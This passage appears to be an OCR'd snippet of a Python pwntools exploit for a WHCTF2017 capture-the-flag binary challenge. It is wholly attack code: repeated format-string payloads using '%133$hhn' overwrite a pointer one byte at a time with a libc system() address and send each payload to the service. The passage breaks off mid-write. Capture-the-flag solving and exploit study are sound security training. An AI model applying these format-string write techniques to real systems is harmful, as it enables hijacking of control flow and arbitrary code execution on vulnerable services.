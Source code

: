 ```python
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book)
cn.send(pay2)

# set two bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>8) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+1)
cn.send(pay2)

# set three bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>16) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+2)
cn.send(pay2)

# set four bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>24) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+3)
cn.send(pay2)

# set five bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>32) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
pay2 = 'a'*1000
pay2 += "cc%{}c%133$hhn".format(one_bit)
pay2 = pay2.ljust(1016, "b")
pay2 += p64(free_book+4)
cn.send(pay2)

# set six bit
cn.recvuntil('Code:')
cn.sendline('1')
cn.recvuntil('WHCTF2017:\n')

one_bit = (system_libc>>40) & 0xff
one_bit = 0xff & (one_bit - 0xfe)
```